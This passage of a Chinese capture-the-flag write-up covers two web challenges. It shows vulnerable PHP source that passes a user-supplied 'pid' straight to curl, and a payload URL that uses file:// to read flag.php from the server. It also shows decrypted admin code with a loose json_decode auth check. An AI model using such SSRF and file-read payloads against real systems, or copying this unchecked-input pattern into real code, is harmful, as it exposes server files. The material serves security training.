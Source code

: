         $file = @file_get_contents($page.".php");
        echo $file;
    }
    if(@$_GET["action"]=="album"){
        if(isset($_GET["pid"])){
            curl($_GET["pid"]);
        }
    }
    ?>
    
function.php

    <?php
    function curl($url){
        $ob = curl_init();
        curl_setopt($ob, CURLOPT_URL, $url);
        curl_setopt($ob, CURLOPT_HEADER, 0);
        $re = curl_exec($ob);
        curl_close($ob);
        return $re;
    }
    function getPic($num){
        if(file_exists("./IMG/$num.jpg")){
            $path = "./IMG/$num.jpg";
            return $path;           
        }
    }
    ?>

构造payload

    http://6406486eb7a444a3916e631f4c604d658117d965a360429f.game.ichunqiu.com/index.php?action=album&pid=file:///var/www/html/flag.php
直接读取得：
![web2](/images/other/donghua_web2_4.png)

## web3
扫出code.zip，打开后发现代码是加密过的；
Wfox的[解密脚本](http://sec2hack.com/phpjiami.zip);
解密后的代码如下：

admin.php

    <?php
    if($_GET['authAdmin']!="***********"){
        die("No login!");
    }
    if(!isset($_POST['auth'])){
        die("No Auth");
    }else{
        $auth  = $_POST['auth'];
        $auth_code = "**********";
        if(json_decode($auth) == $auth_code){
            ;
        }else{
            header("Location:index.php");
        }
    }
    ?>
    